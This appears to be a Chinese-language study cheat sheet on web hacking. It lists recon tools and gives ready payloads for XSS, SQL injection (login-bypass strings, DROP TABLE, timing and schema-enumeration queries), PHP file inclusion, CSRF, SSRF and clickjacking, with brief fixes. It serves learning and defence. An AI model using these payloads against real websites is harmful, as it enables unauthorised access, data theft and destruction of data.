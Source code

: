
## 分析工具:
`burpsuite` 抓包 改包

`nmap ncat` 掃port 測port

`whois` and `theharvester` OSINT

`python` 不用多說

`sqlmap` 不用多說

還有瀏覽器的 `F12(Developer tools)` (超級有用!)
### #別當 script kiddy!!


## 常見漏洞

### XSS(Cross Site Scripting)

#### Attacking Vectors
##### 基本
`<script src = www.example.com/xss.js></script>`
 
 or
 
 `<script>alert(1)</script>`
##### Advanced Vector
`<a id=x tabindex=1 onactivate=alert(1)></a>`

`<body onafterprint=alert(1)>`

`<a id=x tabindex=1 onbeforeactivate=alert(1)></a>`

`<audio src/onerror=alert(1)>`

`<body onpageshow=alert(1)>`

`<body onresize=alert(1)`

and more on [portswigger.net](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)

#### Fixing
escape html字元

### SQL 注入

#### Attacking Vectors
##### 檢查是否有漏洞
Common vectors like

`'` and `ORDER BY 1`

Blind-Injections to check without debug info

`' AND 1=1 ` (true) `' AND 1=2 ` (false)

Timing attack

`BENCHMARK(878787878787, ('hey', 'you'))`

##### 註解掉後面的query
`DROP TABLE1; --`

or

`DROP TABLE1; #`
##### Login bypass
用 `'` 和 `--` 來閉合引號和註解

##### 萬用密碼
`admin 'or'1'='1`

`admin '--`

`admin '/*`

`ad'||'min'/*`

##### Common Vectors(MySQL for example)
`SELECT user();`

`SELECT user FROM mysql.user;`

`SELECT distinct(db) FROM mysql.db `

`SELECT schema_name FROM information_schema.schemata; (for MySQL >= v5.0)`

`SELECT table_schema, table_name, column_name FROM information_schema.columns WHERE table_schema != ‘mysql’ AND table_schema != ‘information_schema’`

`SELECT table_schema,table_name FROM information_schema.tables WHERE table_schema != ‘mysql’ AND table_schema != ‘information_schema’`

`SELECT table_schema, table_name FROM information_schema.columns WHERE column_name = ‘username’`

##### !No `information_schema` in MySQL < 5!

#### Fixing
預編譯SQL語句

### PHP-Include (上傳漏洞)
PHP 的 include(), require(), include_once(), require_once()可供利用

#### Attacking Vectors
##### file_put_contents寫入
直接

`file_put_contents('path', content')`

##### php偽協議
`data:text/html;ascii, ........`

也可以base64

##### 本地包含(LFI)
透過改包，可以讀取檔案

##### 其他
`../../`上層目錄

用編碼繞防火牆

POST Data 也可以注入payload

### CSRF (Cross-Site-Request-Forgery)
#### Attacking Vectors
將siteB的元素注入到siteA:

`<img src = http://www.siteb.com/blog.php?action=delete></img>`

#### Fixing
檢查referer

captcha

csrf token(保存在server的session裡面，隨機產生)

### SSRF (Server-Side-Request-Forgery)
很像csrf，但是用來訪問內網的server

使用 `php` 偽協議 `RFI` 之類的方式實現


### ClickJacking

插一個透明的frame，直接設定成網頁大小，無論如何使用者都會點擊到frame的內容
